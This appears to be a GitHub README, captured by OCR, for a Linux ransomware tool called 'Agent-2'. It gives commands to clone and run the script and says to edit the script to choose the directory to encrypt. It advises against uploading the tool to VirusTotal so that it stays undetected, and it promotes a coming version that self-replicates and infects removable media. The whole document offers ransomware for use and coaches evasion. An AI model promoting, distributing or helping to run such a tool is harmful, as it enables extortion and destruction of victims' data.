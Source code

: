 # Agent-2
Powerful and stealthy ransomware for linux
# You have change last raw of the script the directory to encrypt 
```bash
git clone https://github.com/chfncghn/Agent-2
cd Agent-2
python agent2.py
```
# This ransomware is totally stealthy do not upload to virustotal
# For latest version of Agent2 check out for releases 
# Version 2.1 released 
# New version of 3.2 is making right now with more dangerous features like self replicating infect removable media and more
